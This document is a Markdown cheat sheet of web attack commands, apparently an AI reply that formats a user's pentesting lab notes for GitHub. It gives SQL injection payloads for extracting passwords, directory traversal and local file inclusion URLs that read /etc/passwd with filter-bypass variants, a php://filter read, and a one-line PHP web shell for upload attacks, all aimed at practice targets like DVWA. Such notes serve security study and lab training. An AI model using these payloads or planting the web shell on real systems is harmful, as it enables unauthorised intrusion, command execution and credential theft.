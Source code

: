 Here’s your data formatted into Markdown for better readability. This will display neatly on GitHub:

````markdown
# Network and Security Commands Cheat Sheet

### Host Lookup

- **host google.com** : Retrieve the IPV4 and IP address information.

---

## Website Enumeration

- **nslookup google.com**

  - Displays server address and name.

- **whois google.com**

  - Provides more detailed information about the website.

- **whatweb `<ip-address>`**

  - Fetches details about the IP address.

- **whatweb --aggression 3 -v `<ip-address>`**

  - Aggressive scan mode for detailed info.

- **whatweb --aggression 3 -v `<ip-range>` --no-errors**
  - Perform aggressive scan on an IP range without displaying errors.

---

### Finding Hidden Directories

- Use the **dirb** tool:
  ```sh
  dirb <address>
  dirb http://<ip-address> /usr/share/wordlists/dirb/common.txt
  ```
````

- **nmap -sV `<ip-address>`**

  - Fetches more details about port versions.

- **nikto -host `<ip-address>`**
  - Scan the host for vulnerabilities.
  - **nikto -host `<ip-address>` -port 8081**
    - Specify a custom port (e.g., 8081).

---

## 1. Broken Access Control

```sh
sudo docker container ps
```

#### SQL Injection Example

- **Basic payload**: `' OR 1=1 #`
- **To extract passwords**: `' UNION SELECT user, password FROM users #`

**DVWA Example**:

- **Low Security**:

  - Payload: `test' OR 1=1 --`
  - Example: `GET /vulnerabilities/sqli/?id=' OR 1=1 #`

- **Medium Security**:
  - Payload: `1 OR 1=1 #`
  - To extract passwords: `1 UNION SELECT user, password FROM users #`

**SecureBank SQL Injection**:

```sql
' UNION SELECT * FROM Transactions --
' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, 'string' FROM Transactions --
' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, @@version FROM Transactions --
```

---

## Directory Traversal

```sh
tar -xvf apache-tomcat-8.5.99.tar.gz
./catalina.sh run
```

### Python Virtual Environment Setup

```sh
python3 -m venv venv
. venv/bin/activate
```

**wfuzz Usage**:

```sh
wfuzz -w <wordlist> http://localhost:1337/dynamic-app1/?FUZZ=test
```

- **Example to Access Secret File**:
  ```sh
  http://localhost:1337/dynamic-app1/?file=../../../secret.txt
  ```

---

## 2. File Inclusion Vulnerabilities

```sh
/app?page=main&username=<username>
```

#### Local File Inclusion (LFI) Example

- **Low Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
  ```

- **Medium Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=....//....//....//etc/passwd
  ```

- **Hard Security**:
  ```sh
  http://localhost/vulnerabilities/fi/?page=file4.php../../../../etc/passwd
  ```

#### PHP Filter

- **Base64 Encoding for Low Security**:
  ```sh
  http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
  ```

---

## 3. File Upload Vulnerabilities

### Basic File Server Setup

```sh
cd <www-directory>
php -S 127.0.0.1:7070
touch hello.php
echo "<?php echo 'hello world'; ?>" > hello.php
```

- **Basic Exploit**:
  - Upload `shell.php` with content:
    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```
  - Access with URL: `http://localhost:7070/uploads/level1-thumbnail.php?cmd=whoami`

---

Enjoy exploring, and remember to use these commands responsibly!

```

---

This Markdown file will display as organized sections with clear headings and code blocks, making it easy to read on GitHub! Let me know if you'd like any further customization.
```
